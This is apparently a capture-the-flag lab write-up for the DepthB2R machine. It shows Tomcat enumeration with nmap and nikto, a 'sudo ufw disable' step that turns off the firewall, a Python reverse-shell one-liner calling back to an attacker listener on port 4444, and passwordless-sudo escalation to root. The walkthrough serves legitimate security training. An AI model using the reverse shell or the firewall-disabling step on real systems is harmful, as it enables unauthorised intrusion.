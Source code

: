 ```yaml
---
title: DepthB2R
categories: [Proving Grounds Play]
tags: [Firewall Disable, Recon, nikto, PrivEsc, Command Injection]
image:
  path: https://miro.medium.com/v2/resize:fit:1200/1*fiNtXsFnX5MR7BPQV_wBvg.png
  alt:  DepthB2R Machine 🖥️
---
```



### Lets check the IP address → 

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled.png)

```bash
IP : 10.0.2.44
```
{: .nolineno}

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/DepthB2R]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.44
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-04 11:29 IST
Nmap scan report for 10.0.2.44
Host is up (0.00079s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
| http-methods: 
|_  Potentially risky methods: PUT DELETE
|_http-title: Apache Tomcat
MAC Address: 08:00:27:FC:6B:6D (Oracle VirtualBox virtual NIC)
```
{: .nolineno}

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%201.png)

Now after directory traversal though `Feroxbuster` Tool I got these files and directories →

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%202.png)

Now lets load the directory /manager/ ➡️

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%203.png)

Now while nikto scan I got a file > `test.jsp` →

```bash
Nikto.txt
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/DepthB2R]
└─$ nikto -h http://10.0.2.44:8080/ -o nikto.txt -C all
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.0.2.44
+ Target Hostname:    10.0.2.44
+ Target Port:        8080
+ Start Time:         2023-05-04 11:51:21 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS .
+ HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ /: Appears to be a default Apache Tomcat install.
+ /manager/html: Default Tomcat Manager / Host Manager interface found.
+ /test.jsp: This might be interesting.
+ /manager/status: Default Tomcat Server Status interface found.
+ 26792 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2023-05-04 11:53:28 (GMT5.5) (127 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%204.png)

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%205.png)

Now lets see inside the home which user is there →

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%206.png)

> User : bill , So lets **disable the firewall** so that I can execute my reverse shell command through ssh.
{: .prompt-info }

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%207.png)

command : `sudo ufw disable` to disable the firewall but I have to use ssh bill@localhost first so that it can be executed .

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%208.png)

Now lets start the listener port 4444 with nc and then execute the payload for reverse shell .

```bash
payload :
ssh bill@localhost python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
{: .nolineno}

In response I got this ➡️

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%209.png)

Lets see how bill can lead us to root →

```bash
bill@b2r:~$ sudo -l
sudo -l
Matching Defaults entries for bill on b2r:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bill may run the following commands on b2r:
    (ALL : ALL) NOPASSWD: ALL
bill@b2r:~$
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/DepthB2R/Untitled%2010.png)

Now I am root →

```bash
root@b2r:/root# cat flag
cat flag
flag{WellThatWasEasy}
root@b2r:/root#
```

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }